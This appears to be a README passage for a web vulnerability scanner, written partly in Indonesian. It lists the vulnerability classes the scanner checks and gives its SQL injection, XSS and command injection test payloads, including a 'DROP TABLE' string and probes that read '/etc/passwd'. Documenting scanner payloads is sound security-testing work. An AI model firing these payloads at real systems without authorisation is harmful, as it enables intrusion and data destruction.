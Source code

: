 ### 🔴 Critical Vulnerabilities
- **SQL Injection**: Testing dengan payload `' OR 1=1--`, `admin'--`, `UNION SELECT`
- **Command Injection**: Eksekusi system command via `; cat /etc/passwd`, `| whoami`
- **Directory Traversal**: Akses file sistem dengan `../../../etc/passwd`

### 🟠 High Risk Vulnerabilities  
- **Cross-Site Scripting (XSS)**: Reflected & Stored XSS detection
- **Sensitive File Exposure**: `.env`, `config.php`, `backup.sql`, `.git/config`
- **Authentication Bypass**: SQL injection pada login forms

### 🟡 Medium Risk Issues
- **Missing Security Headers**: CSP, X-Frame-Options, HSTS
- **Open Redirect**: URL redirection vulnerabilities
- **CSRF Protection**: Missing CSRF tokens
- **File Upload**: Unrestricted file upload detection

### 🟢 Low Risk & Info Gathering
- **Server Information Disclosure**: Version fingerprinting
- **Directory Listing**: Exposed directories
- **SSL/TLS Issues**: Certificate validation
- **HTTP Methods**: Dangerous methods enabled

## 🎯 Jenis Payload yang Digunakan

### SQL Injection Payloads
```sql
' OR '1'='1
' OR 1=1--
admin'--
' UNION SELECT NULL--
'; DROP TABLE users--
1' AND '1'='1
```

### XSS Testing Payloads
```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
javascript:alert('XSS')
<iframe src='javascript:alert("XSS")'></iframe>
```

### Command Injection Payloads
```bash
; cat /etc/passwd
| whoami
& dir
`id`
$(whoami)
; ping -c 1 127.0.0.1
```
